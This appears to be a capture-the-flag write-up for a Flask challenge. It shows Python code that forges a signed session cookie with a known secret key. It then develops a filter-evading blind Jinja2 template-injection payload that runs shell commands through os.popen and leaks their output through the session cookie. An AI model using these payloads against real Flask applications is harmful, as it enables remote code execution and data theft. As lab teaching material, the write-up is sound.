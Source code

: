 # Moderate Writeup

Takes us straight to a Login page....
We can also find the /debug for the source

## Login Page

 - Doesn't actually do anything
 - EXCEPT if we have the correct cookie we can then get to the main page.
 
## Mangling the cookies

Looks like if we have the Key,  we can mangle the cookie and win.

  - https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce
  - https://chc.cs.cornell.edu/writeups/4/
  - https://ctftime.org/writeup/11812
  
Code for Mangling Cookies is below
We need to install flask

```
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)


def encode_flask_cookie(secret_key, data):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.dumps(data)
```

We need the Key (Which is at the top of our page)

And we can get the cookie we need using this code (in the moderateExploit.py)

```
    r = session.get(URL)
    sessionCookie = session.cookies["session"]

    #Lets decode it
    decodeCookie = decode_flask_cookie(SECRET_KEY, sessionCookie)
    
    #Modify the Text
    decodeCookie["user"] = "Balthazar"
    #Recode the Cookie (I think we could skip the whole decode, but lets leave it)
    recodeCookie = encode_flask_cookie(SECRET_KEY, decodeCookie)

    session.cookies["session"] = recodeCookie
    r = session.get(URL)
```


Ok this now takes us back to the same login page as we had in the easy version.
However the logic we have here is different.....

## Getting data: POC

We cant get data in the same way as before.

We also have three problems

### Blind Injection

The line that does the magic is this


```
templateStr = "<div class='alert'>{0}</div>".format(theText)
out = flask.render_template_string(templateStr)
```

Even through its not returned, this is still fed through the renderer, 
so we get code evaluation.  But its blind.

### Filtering 

We also have to deal with input filtering

```
badChars = ["{{","}}","'",'"',"format","socket"]
regex = re.compile('|'.join(map(re.escape, badChars)))
```

### Length issues

Finally, our input cant be more that 150 Chars

```
if len(theText) > 150:
    return "Too Long"
```

## Getting Code Execution

### Bypassing ```{{```

We can still execute code using `{% if ... %}` tags, but we cant ask it to display output 

Lets test this first

```
payload = {"king": "{% if True %} Foo {% endif %}", "name": "dang", "gift": "foo"}
```

We get this through the filter, but it doesn't really help, as we get no output.
So we want to make the thing sleep (as per blind SQL)

Grab the Explit from 

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```
request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' %} a {% endif %}
```


But we need to work around various parts of the filters.  We can work out if things work by checking for errors

First off lets get rid of the various single quotes that we can switch out easily
```
request.application.__globals__.__builtins__.__import__('os').popen('sleep 5').read()
```

### Bypassing Strings.

Stroke of inspiration allows us to do the same using arguments to add the other strings
```
request.application.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read()
```

Which means our full payload is 

```
#Update the King Element
payload["king"] = "{% if request.application.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read() %} Foo {% endif %}"

#And we also need some paramaers for the strings
params = {"a": "os", "b": "sleep 5"}
```

When we run this it taks 5 seconds to respond...

```
In [54]: r = session.post(URL, data=payload, params=params)
In [56]: r.elapsed.total_seconds()
Out[56]: 5.015917
```

### Exfiltrating the Payload via Cookies

While the payload above works, we could probably do something with sleep.
If we check whats there we have access to the cookies.

Lets see if we can modify the stuff to make that work

```
payload["king"] = "{% if session.update(foo=request.application.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read()) %} Foo {% endif %}"
```

And our output looks like this

```
r = session.post(URL, data=payload, params=params)

tmp = session.cookies.get("session",domain="127.0.0.1")

moderateExploit.decode_flask_cookie("FooBar", tmp)
{'foo': '', 'user': 'Balthazar'}
```


So Now we can use the same approach to exfiltrte the data via the cookie

Setting the payload to ```cat flag.txt``` Fails

```
params = {"a": "os",  "b": "cat flag.txt"}
```

Obviously the dev is evil, and that doesnt exist....

However we can find it with ```ls -l```  then catting ```theFlag.txt```
